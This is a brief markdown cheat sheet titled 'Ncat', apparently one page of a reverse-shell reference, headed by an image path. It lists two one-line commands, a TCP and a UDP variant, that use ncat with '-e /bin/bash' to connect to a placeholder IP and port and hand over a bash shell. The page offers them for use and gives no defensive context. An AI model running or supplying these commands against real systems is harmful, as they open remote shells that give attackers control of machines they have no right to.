 # Ncat

## TCP Method

`$ ncat <IP> <PORT> -e /bin/bash`

## UDP Method

`$ ncat -u <IP> <PORT> -e /bin/bash`